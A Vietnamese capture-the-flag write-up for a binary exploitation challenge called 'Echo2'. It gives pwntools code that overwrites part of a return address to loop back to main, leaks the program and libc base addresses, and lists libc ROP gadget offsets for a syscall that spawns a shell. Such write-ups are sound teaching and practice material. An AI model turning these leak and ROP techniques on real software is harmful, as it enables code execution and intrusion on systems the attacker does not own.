 - Nó sẽ leak cho ta ret của echo nhưng như vậy chưa đủ vì leak xong chương trình kết thúc
- Ta kiểm tra địa chỉ của ret echo là `0x00558efb2072b3` và main là `0x558efb207247`
- 2 địa chỉ khá giống nhau nên ta chỉ cần ghi thêm 1 byte để ghi đè ret echo thành main để khi kết thúc nó sẽ chạy lại chương trình
- Do nhảy vào đầu main có lỗi xmm1 nên ta sẽ nhảy vào main + 5 là cần ghi đè thành byte 0x4c ("L")
- Nên sửa lại payload một xíu, và tính toán exe base

```python
    payload = b'a'*279 + b"L"
    r.sendlineafter(b'Echo2\n', b"281")
    r.send(payload)

    r.recvuntil(b'a'*279)
    exe_leak = u64(r.recvline(keepends=False) + b'\0\0')
    exe.address = exe_leak - 4684
    log.info("leak exe: " + hex(exe_leak))
    log.info("base exe: " + hex(exe.address))
```

### Leak libc

- chỗ này em thắc mắc tại sao phải đưa ret vào =(( (em co script của a)

```python
    ret = exe.address + 0x000000000000101a
    payload = b'b'*279
    payload += p64(ret) + p64(exe.plt['printf'])
    payload += p64(ret) + p64(exe.sym['echo'])
    r.sendlineafter(b'Echo2\n', str((len(payload) + 1)))
    r.send(payload)

    r.recvlines(2)
    leak_libc = u64(r.recvuntil(b'Welcome', drop=True) + b"\0\0")
    libc.address = leak_libc - 401616
    log.info("leak libc: " + hex(leak_libc))
    log.info("leak libc: " + hex(libc.address))
```

### rop

- Đến đây ta có thể dùng one_gadget, tuy nhiên khi sử dụng one_gadget mặc dù đã thoả các điều kiện rồi nhưng vẫn lỗi, buộc ta phải rop bằng tay =)))
- Dùng ROPgadget trong file exe không có các pop nên ta sẽ sử dụng ROPgadget lên file libc vì nó có đầy đủ
- Ta cần pop các thanh ghi sau

```
    rsi = libc.address + 0x000000000002be51
    rdi = libc.address + 0x000000000002a3e5
    rax_rdx_rbx = libc.address + 0x0000000000090528
    syscall = libc.address + 0x0000000000029db4
```

- Cuối cùng tạo shell ta tạo shell thui
